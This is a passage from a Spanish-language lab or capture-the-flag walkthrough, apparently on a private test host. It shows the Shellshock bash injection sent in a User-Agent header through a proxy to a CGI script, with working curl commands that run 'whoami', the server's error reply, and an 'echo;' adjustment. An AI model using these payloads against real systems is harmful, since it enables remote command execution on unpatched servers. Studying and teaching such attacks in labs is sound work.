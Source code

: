 Explicación:  esta primera parte `() { :; };` es digamos el payload que corrompe el sistema, y este segundo `/bin/eject` es el comando, *indicando su ruta* la cual podemos comprobar con `which <comando>` 

---

Acción:

```bash
which whoami
```

Resultado:

```bash
/usr/bin/whoami
```

Explicación:

---

Acción:

```bash
curl -s http://192.168.1.62/cgi-bin/status --proxy http://192.168.1.62:3128/ -H "User-Agent: () { :; }; /usr/bin/whoami"
```

Resultado:

```bash
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>500 Internal Server Error</title>
</head><body>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error or
misconfiguration and was unable to complete
your request.</p>
<p>Please contact the server administrator,
 webmaster@localhost and inform them of the time the error occurred,
and anything you might have done that may have
caused the error.</p>
<p>More information about this error may be available
in the server error log.</p>
<hr>
<address>Apache/2.2.22 (Ubuntu) Server at 192.168.1.62 Port 80</address>
</body></html>
```

Explicación: probemos añadiendo un `echo;`

---

Acción:

```bash
curl -s http://192.168.1.62/cgi-bin/status --proxy http://192.168.1.62:3128/ -H "User-Agent: () { :; }; echo; /usr/bin/whoami"
```
